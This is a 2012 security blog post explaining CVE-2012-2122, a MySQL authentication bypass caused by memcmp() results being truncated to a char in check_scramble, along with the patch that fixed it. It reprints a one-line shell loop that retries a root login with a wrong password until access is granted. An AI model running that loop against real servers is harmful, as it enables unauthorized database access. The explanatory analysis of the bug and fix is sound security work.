 ```yaml
---
layout: post
title: 'When The Comparison Functions Do Not Compare:  The MySQL Fail'
date: '2012-06-11T10:44:00.000+02:00'
author: Xavier Garcia
tags:
- vulnerability
- hash
- memory
- exploit
modified_time: '2012-06-13T09:49:17.095+02:00'
blogger_id: tag:blogger.com,1999:blog-8534555958859253862.post-6049356316579261575
blogger_orig_url: http://www.shellguardians.com/2012/06/when-compare-functions-do-not-compare.html
---
```

<blockquote class="twitter-tweet" data-lang="en"><p lang="en" dir="ltr">MySQL bypass:<br><br>$ for i in `seq 1 1000`; do mysql -u root --password=bad -h 127.0.0.1 2&gt;/dev/null; done <a href="https://t.co/DiqDFMC1">https://t.co/DiqDFMC1</a><br>/via <a href="https://twitter.com/hdmoore?ref_src=twsrc%5Etfw">@hdmoore</a></p>&mdash; Mikko Hypponen (@mikko) <a href="https://twitter.com/mikko/status/212083731513622529?ref_src=twsrc%5Etfw">June 11, 2012</a></blockquote>
<script async src="https://platform.twitter.com/widgets.js" charset="utf-8"></script>


This bug  demonstrates why I hate C so much. It is not enough that you have to be really careful when writing code that you also have to be aware of tricks and optimizations applied by the compilers. I cannot point to details but it is not the first time that something like this happens.

In a nutshell (read this [post](https://community.rapid7.com/community/metasploit/blog/2012/06/11/cve-2012-2122-a-tragically-comedic-security-flaw-in-mysql) from Rapid7) the [memcmp()](http://www.cplusplus.com/reference/clibrary/cstring/memcmp/) function does not behave as expected when gcc uses the SSE optimization. As you may have noticed, I am not an expert in C so do not expect a long and detailed explanation.

The documentation states:

> Compares the first num bytes of the block of memory pointed by ptr1 to the first num bytes pointed by ptr2, returning zero if they all match or a value different from zero representing which is greater if they do not.

There is no warning whatsoever, but it seems that it is not always the case. As H.D. Moore explains  in his post: 

> On some platforms and with certain optimizations enabled, this routine can return values outside of this range, eventually causing the code that compares a hashed password to sometimes return true even when the wrong password is specified. Since the authentication protocol generates a different hash each time this comparison is done, there is a 1 in 256 chance that ANY password would be accepted for authentication.

The exploit? Pretty simple: we try to authenticate in  a for loop until the bug appears.

```shell   
> $ for i in `seq 1 1000\`; do mysql -u root --password=bad -h 127.0.0.1 2>/dev/null; done  
> mysql>
```
  
**Update:** this [post](http://unaaldia.hispasec.com/2012/06/mysql-o-como-es-posible-dar-por-valida.html) from [Hispasec](http://www.hispasec.com/en/) (Spanish) has more information regarding the vulnerability.

It seems the vulnerability would be a truncation from int to char, put together with a compiler optimization.

The function that compares the hash given with the stored in the database can be found in the file  'sql/password.c':

```c
my_bool
check_scramble(const char *scramble_arg, const char *message, const uint8 *hash_stage2)

{
...
return memcmp(hash_stage2, hash_stage2_reassured, SHA1_HASH_SIZE);

}
```

As we can see, [memcmp()](http://www.cplusplus.com/reference/clibrary/cstring/memcmp/) will return an  int, that will be truncated to a char. Therefore, the hash is valid if check_scramble returns the char 0 (non-zero is a wrong hash). As a side note: the type my_bool is defined as char in 'include/my_global.h'.

The patch changes this behaviour to ensure the result. Now, the function check_scramble returns:

```c
return test(memcmp(hash_stage2, hash_stage2_reassured, SHA1_HASH_SIZE));
```

  
being test() a macro defined in include/my_global.h  
  
```c
#define test(a) ((a) ? 1 : 0)
```

This time, we have a boolean operation: return 1 **if the value of 'a' is different to 0** and **return 0 in other case**.
